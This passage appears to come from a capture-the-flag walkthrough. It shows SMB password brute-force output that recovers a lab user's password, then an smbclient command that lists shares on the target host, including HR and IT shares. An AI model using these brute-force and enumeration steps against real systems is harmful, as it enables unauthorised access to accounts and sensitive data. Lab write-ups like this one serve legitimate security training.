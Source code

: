 **Brute Force Attack Results:**
```
[-] 10.2.27.100:445 - 10.2.27.100:445 - Failed: '.\tom:michelle1'
[-] 10.2.27.100:445 - 10.2.27.100:445 - Failed: '.\tom:maddie'
[-] 10.2.27.100:445 - 10.2.27.100:445 - Failed: '.\tom:angie'
[-] 10.2.27.100:445 - 10.2.27.100:445 - Failed: '.\tom:cinderella'
[-] 10.2.27.100:445 - 10.2.27.100:445 - Failed: '.\tom:jesuschrist'
[-] 10.2.27.100:445 - 10.2.27.100:445 - Failed: '.\tom:lester'
[... many failed attempts ...]
[-] 10.2.27.100:445 - 10.2.27.100:445 - Failed: '.\tom:happy1'
[+] 10.2.27.100:445 - 10.2.27.100:445 - Success: '.\tom:felipe'
[*] 10.2.27.100:445 - Scanned 1 of 1 hosts (100% complete)
[*] 10.2.27.100:445 - Bruteforce completed, 1 credential was successful.
[*] 10.2.27.100:445 - You can open an SMB session with these credentials and CreateSession set to true
```

**Success!** The scanner discovers that user `tom` has password `felipe`. This confirms the weak password assumption from the challenge hint.

### Step 3: SMB Share Enumeration

Now that we have valid credentials, let's enumerate the available SMB shares to understand what data we can access:

```bash
smbclient -L 10.2.27.100 -U tom
```

**SMB Share Enumeration Results:**
```
Password for [WORKGROUP\tom]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        D$              Disk      Default share
        HRDocuments     Disk      
        IPC$            IPC       Remote IPC
        ITResources     Disk      
        print$          Disk      Printer Drivers
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.2.27.100 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

**Available Shares:**
- **ADMIN$** (Remote Admin) - Administrative share
- **C$** (Default share) - C drive access
- **D$** (Default share) - D drive access  
- **HRDocuments** - Custom department share
- **IPC$** (Remote IPC) - Inter-process communication
- **ITResources** - Custom IT department share
- **print$** (Printer Drivers) - Print services
